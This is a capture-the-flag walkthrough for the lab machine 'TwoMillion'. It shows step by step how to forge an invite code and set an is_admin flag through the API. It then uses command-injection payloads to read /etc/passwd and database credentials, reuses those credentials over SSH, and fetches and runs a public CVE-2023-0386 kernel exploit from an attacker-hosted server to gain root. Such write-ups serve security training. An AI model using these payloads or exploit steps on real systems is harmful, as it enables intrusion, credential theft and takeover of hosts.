




# TwoMillion

Target: 10.x.x.x

```
$ nmap -sC -sV -oN nmap/top1000 10.x.x.x
```

Results:
- 22/tcp, OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- 80/tcp, nginx redirect to http://2million.htb/

[+] Ubuntu Jammy.

```
$ sudo nano /etc/hosts

10.x.x.x    2million.htb
```

```
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://2million.htb -H "Host: FUZZ.2million.htb" -ic -o ffuf/dns-top1million-5000 -of csv

$ cat ffuf/dns-top1million-5000 | cut -d"," -f1,5 | grep -v "301"
```

No virtual hosting name-based.

Not exist `/robots.txt`. Start a directory discrovery.

```
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb -o gobuster/dir -b 301
```

The web site has multiple section in the home page.

There is an interesting *[join]* section, where it is possible to sign up by `Invite code`.

`view-source:http://2million.htb/invite`



The `<script defer src="/js/inviteapi.min.js"></script>` specifies that the script is downloaded in parallel to parsing the page, and executed after the page has finished parsing (only for external scripts).


`view-source:http://2million.htb/js/inviteapi.min.js`



Use a JS deobfuscator like [de4js](https://lelinhtinh.github.io/de4js/).



HTTP POST request to `/api/v1/invite/how/to/generate` based on HTTP POST request capture on submit a code to verify.

```
POST /api/v1/invite/how/to/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 9
Origin: http://2million.htb
Connection: keep-alive
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Priority: u=0

code=9999
```

Response:
```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 17:06:56 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 249

{
    "0":200,
    "success":1,
    "data":
        {
            "data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
            "enctype":"ROT13"
        },
    "hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The message is encrypted with `ROT13`. 

> ROT13 is a simple letter substitution cipher that replaces a letter with the 13th letter after it in the Latin alphabet.

The message decrypted is the follow:

```
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```

Send an HTTP POST request:

```
POST /api/v1/invite/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 9
Origin: http://2million.htb
Connection: keep-alive
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Priority: u=0

code=9999
```

The response contains data encoded, it seems a `base64` encoded data type.

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 17:13:55 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 91

{
    "0":200,
    "success":1,
    "data":{
        "code":"UU9NVVktNzVYWTQtTlZaTjctSk44M0Q=",
        "format":"encoded"
    }
}
```

Decoding:

```
$ echo 'UU9NVVktNzVYWTQtTlZaTjctSk44M0Q=' | base64 -d 
QOMUY-75XY4-NVZN7-JN83D
```

Invite code generated: `QOMUY-75XY4-NVZN7-JN83D`.

Use this code to perform a registration as `ap3zzi@2million.htb:ap3zzi`.

Perform the Login.



The dashboard contains an available feature for `Lab Access`.

The HTTP GET request capture with the `Connection Pack` submitted.

```
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

With the access, it is possible that some path `Unauthorized` for normal users are available now.

Directory scanning without `authentication`.

```
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb -o gobuster/dir -b 301
```

The results:

- /home                 (Status: 302) [Size: 0] [--> /]
- /login                (Status: 200) [Size: 3704]
- /register             (Status: 200) [Size: 4527]
- /api                  (Status: 401) [Size: 0]         
- /logout               (Status: 302) [Size: 0] [--> /]
- /404                  (Status: 200) [Size: 1674]
- /0404                 (Status: 200) [Size: 1674]
- /invite               (Status: 200) [Size: 3859]


Can the `/api` access available with the `authenticated user`?

```
GET /api/v1 HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The response:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 17:38:55 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{
    "v1":{
        "user":{
            "GET":{
                "\/api\/v1":"Route List",
                "\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation",
                "\/api\/v1\/invite\/generate":"Generate invite code",
                "\/api\/v1\/invite\/verify":"Verify invite code",
                "\/api\/v1\/user\/auth":"Check if user is authenticated",
                "\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration",
                "\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration",
                "\/api\/v1\/user\/vpn\/download":"Download OVPN file"
            },
            "POST":{
                "\/api\/v1\/user\/register":"Register a new user",
                "\/api\/v1\/user\/login":"Login with existing user"
                }
            },
        "admin":{
            "GET":{
                "\/api\/v1\/admin\/auth":"Check if user is admin"
            },
            "POST":{
                "\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"
            },
            "PUT":{
                "\/api\/v1\/admin\/settings\/update":"Update user settings"
            }
        }
    }
}
```

Following the analysis of the API endpoint usage and send the following HTTP PUT request to update account settings.

```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 83

{
    "email": "ap3zzi@2million.htb",
    "loggedin":true,
    "username":"ap3zzi",
    "is_admin":1
}
```

Response:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 18:23:11 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 41

{
    "id":13,
    "username":"ap3zzi",
    "is_admin":1
}
```

Logging in as `admin` has added no functionality to the web app, other than the ability to make calls to the `/api/v1/admin` endpoint.

There is the `/api/v1/admin/vpn/generate` endpoint that returns a `openvpn` file. 

It suggests that is used a OS command to generate the file.

[+] RCE - Remote Code Execution.

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=4tp5nnab10jbup76o6cf138vng
Upgrade-Insecure-Requests: 1
Content-type: application/json
Priority: u=0, i
Content-Length: 50

{
    "email": "",    
    "username":"; cat /etc/passwd; "
}
```


```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 20 Mar 2025 21:22:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1975

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Information gathering.

Payload:
```
{
    "email": "",
    "username":"; echo `whoami; ls -lah .` ; "
}
```

Result:
```
www-data

total 56K 
. drwxr-xr-x 3 root root 4.0K Jun 6 2023 
.. -rw-r--r-- 1 root root 87 Jun 2 2023 
.env -rw-r--r-- 1 root root 1.3K Jun 2 2023 
Database.php -rw-r--r-- 1 root root 2.8K Jun 2 2023 
Router.php drwxr-xr-x 5 root root 4.0K Mar 20 21:30 
VPN drwxr-xr-x 2 root root 4.0K Jun 6 2023 
assets drwxr-xr-x 2 root root 4.0K Jun 6 2023 
controllers drwxr-xr-x 5 root root 4.0K Jun 6 2023 
css drwxr-xr-x 2 root root 4.0K Jun 6 2023 
fonts drwxr-xr-x 2 root root 4.0K Jun 6 2023 
images -rw-r--r-- 1 root root 2.7K Jun 2 2023 
index.php drwxr-xr-x 3 root root 4.0K Jun 6 2023 
js drwxr-xr-x 2 root root 4.0K Jun 6 2023 views
```

Payload:
```
{
    "email": "",
    "username":"; echo `cat .env` ; "
}
```

Result:
```
DB_HOST=127.0.0.1 
DB_DATABASE=htb_prod 
DB_USERNAME=admin 
DB_PASSWORD=SuperDuperPass123
```

Try SSH access as `admin@10.x.x.x:SuperDuperPass123`.

```
$ ssh admin@10.x.x.x
The authenticity of host '10.x.x.x (10.x.x.x)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.x.x.x' (ED25519) to the list of known hosts.
admin@10.x.x.x's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 20 09:39:02 PM UTC 2025

  System load:  0.0               Processes:             225
  Usage of /:   82.6% of 4.82GB   Users logged in:       1
  Memory usage: 9%                IPv4 address for eth0: 10.x.x.x
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Thu Mar 20 20:11:46 2025 from 10.10.14.174
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ ls -lah
total 32K
drwxr-xr-x 4 admin admin 4.0K Jun  6  2023 .
drwxr-xr-x 3 root  root  4.0K Jun  6  2023 ..
lrwxrwxrwx 1 root  root     9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin 3.7K May 26  2023 .bashrc
drwx------ 2 admin admin 4.0K Jun  6  2023 .cache
-rw-r--r-- 1 admin admin  807 May 26  2023 .profile
drwx------ 2 admin admin 4.0K Jun  6  2023 .ssh
-rw-r----- 1 root  admin   33 Mar 20 19:22 user.txt
```

The `admin` may not run sudo. Find `admin` owned file.

```
admin@2million:~$ find / -user admin -type f 2>/dev/null   
```

There is an interesting result:

- /var/mail/admin

```
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Therefore, get information about Linux kernel version.

```
admin@2million:~$ uname -r
5.15.70-051570-generic
```

[CVE-2023-0386](https://ubuntu.com/security/CVE-2023-0386) which a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system. [How it works?](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/)

[+] Exploit the Linux kernel vulnerability to performa a privilege escalation.

Using the exploit in this repository [sxlmnwb](https://github.com/sxlmnwb/CVE-2023-0386).

```
$ mkdir www; cd www; git clone https://github.com/sxlmnwb/CVE-2023-0386.git;
$ cd www/CVE-2023-0386 ; python3 -m http.server 8000
```

```
admin@2million:~/ wget -r -np http://10.10.16.85:8000/

admin@2million:~/10.10.16.85:8000$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601

```

Launch another SSH connection:

```
admin@2million:~/10.10.16.85:8000$ ./exp 18:38:24 [17/17]
uid:1000 gid:1000                                                                                                                                                                                         
[+] mount success                                                                                                                                                                                         
total 8                                                                                                                                                                                                   
drwxrwxr-x 1 root   root     4096 Mar 20 22:33 .                                                                                                                                                          
drwxrwxr-x 6 root   root     4096 Mar 20 22:33 ..                                                                                                                                                         
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file                                                                                                                                                       
[+] exploit success!                                                                                                                                                                                      
To run a command as administrator (user "root"), use "sudo <command>".                                                                                                                                    
See "man sudo_root" for details. 

root@2million:~/10.10.16.85:8000# cd ..                                                                                                                                                                   
root@2million:~# cd /root/                                                                                                                                                                                
root@2million:/root# ls                                                                                                                                                                                   
root.txt  snap  thank_you.json 
```

[+] Completed.